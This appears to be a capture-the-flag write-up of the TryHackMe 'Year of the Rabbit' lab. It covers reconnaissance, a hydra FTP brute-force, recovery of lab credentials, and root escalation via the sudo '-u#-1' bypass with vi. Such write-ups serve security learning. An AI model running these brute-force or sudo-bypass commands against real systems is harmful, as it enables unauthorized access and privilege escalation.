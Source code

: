```yaml
---
slug: year-of-the-rabbit
title: THM Year-of-the-rabbit writeup
description: Tryhackme Year-of-the-rabbit writeup
image: https://tryhackme-images.s3.amazonaws.com/room-icons/c062ef0e0b4f70e51a2dafc5fc2bca0e.jpeg
tags: ["FTP", "stegnography", "vi"]
authors: ["shivam"]
---
```


Hello everyone,

Today we are going to do Year-of-the-rabbit machine from Tryhackme. we will see some stegnography,some rabbit holes and privesc with vi.

![](https://tryhackme-images.s3.amazonaws.com/room-icons/c062ef0e0b4f70e51a2dafc5fc2bca0e.jpeg)

<!--truncate-->

## nmap results

```c
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-02 13:35 EDT
Nmap scan report for 10.10.190.212 (10.10.190.212)
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   1024 a0:8b:6b:78:09:39:03:32:ea:52:4c:20:3e:82:ad:60 (DSA)
|   2048 df:25:d0:47:1f:37:d9:18:81:87:38:76:30:92:65:1f (RSA)
|   256 be:9f:4f:01:4a:44:c8:ad:f5:03:cb:00:ac:8f:49:44 (ECDSA)
|_  256 db:b1:c1:b9:cd:8c:9d:60:4f:f1:98:e2:99:fe:08:03 (ED25519)
80/tcp open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.70 seconds
```

---

## dirsearch results

```c
[13:44:08] Starting:
[13:44:17] 301 -  315B  - /assets  ->  http://10.10.190.212/assets/
[13:44:31] 200 -    8KB - /index.html
[13:44:44] 403 -  278B  - /server-status
```

---

--> i got 2 files in `/assets`

![](attachments/Pastedimage20210902140443.png)

--> first video was rickroll and i found one comment in `style.css` file

```py
 Nice to see someone checking the stylesheets.
 Take a look at the page: /sup3r_s3cr3t_fl4g.php
```

--> when i goto this file i got one alert saying

`disable javascript`

so i disabled javascript and found this :

![](attachments/Pastedimage20210902140740.png)

--> and this time there was a directory called `sup3r_s3cr3t_fl4g`

--> so i ran dirsearch on this and found only `index.html`

--> i found this hidden directory after intercepting the response

![](attachments/Pastedimage20210902143034.png)

--> after going to this directory i found one image and when i done `strings <image>` then i found this :

![](attachments/Pastedimage20210902144212.png)

---

## Stegnography

--> and the text after `One of these is the password:` is not the exifdata but it's actully the list of passwords !

so we have to use them as a wordlist for hydra

--> so Let's brute force the ftp password for `ftpuser`

```bash
┌──(kali㉿kali)-[~/Documents/THM/Yearoftherabbit]
└─$ hydra -l ftpuser -P wordlist.txt ftp://10.10.190.212
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-02 14:41:00
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.190.212:21/
[21][ftp] host: 10.10.190.212   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-02 14:41:26
```

--> and i got password !

--> so Let's login on ftp !

---

## FTP

--> got this in ftp

![](attachments/Pastedimage20210902144533.png)

--> This is `brainfuck` lanugage so Let's decode it !

--> and i got the password for `eli` and it must be a SSH password

![](attachments/Pastedimage20210902144640.png)

```c
eli:DSpDiM1wAEwid
```

---

## SSH

--> when we will login with ssh then i got this message

![](attachments/Pastedimage20210903114342.png)

--> then i done `locate s3cr3t` and found one directory

![](attachments/Pastedimage20210903114446.png)

--> so Let's read that file

```c
Your password is awful, Gwendoline.
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

--> so now we have password of gwendoline so Let's login

--> and we got logged in and got `user.txt`

---

## Privesc

when i done `sudo -l` i found this :

```c
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

--> it means we can run `vi`as every user except root so we have to find something to bypass this because we want root shell

--> after some research i found this exploit from exploit-db

https://www.exploit-db.com/exploits/47502

--> so i made this command

```c
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

--> after that press `shift+;` and then write `!/bin/bash` and you will get root shell !

---
